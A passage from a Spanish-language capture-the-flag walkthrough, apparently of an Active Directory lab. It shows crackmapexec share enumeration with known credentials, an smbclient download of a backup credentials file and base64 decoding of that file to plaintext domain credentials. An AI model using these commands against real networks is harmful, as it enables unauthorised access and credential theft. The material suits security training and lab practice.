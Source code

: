 ```bash
❯ crackmapexec smb 10.10.220.144 -u svc-admin -p management2005 --shares
SMB         10.10.220.144   445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.220.144   445    ATTACKTIVEDIREC  [+] spookysec.local\svc-admin:management2005 
SMB         10.10.220.144   445    ATTACKTIVEDIREC  [+] Enumerated shares
SMB         10.10.220.144   445    ATTACKTIVEDIREC  Share           Permissions     Remark
SMB         10.10.220.144   445    ATTACKTIVEDIREC  -----           -----------     ------
SMB         10.10.220.144   445    ATTACKTIVEDIREC  ADMIN$                          Remote Admin
SMB         10.10.220.144   445    ATTACKTIVEDIREC  backup          READ            
SMB         10.10.220.144   445    ATTACKTIVEDIREC  C$                              Default share
SMB         10.10.220.144   445    ATTACKTIVEDIREC  IPC$            READ            Remote IPC
SMB         10.10.220.144   445    ATTACKTIVEDIREC  NETLOGON        READ            Logon server share 
SMB         10.10.220.144   445    ATTACKTIVEDIREC  SYSVOL          READ            Logon server share 
```

Vamos a conectarnos a `backup` por el nombre ya suena interesante

```bash
❯ smbclient //10.10.220.144/backup -U svc-admin --password management2005
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Apr  4 13:08:39 2020
  ..                                  D        0  Sat Apr  4 13:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 13:08:53 2020

		8247551 blocks of size 4096. 3636097 blocks available
smb: \> 
```

Vemos un archivo `backup_credentials.txt` nos lo vamos a descargar

```bash
smb: \> get backup_credentials.txt 
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

Al parecer es `base64`

```bash
❯ cat backup_credentials.txt
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: backup_credentials.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

```bash
❯ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
backup@spookysec.local:backup2517860
```
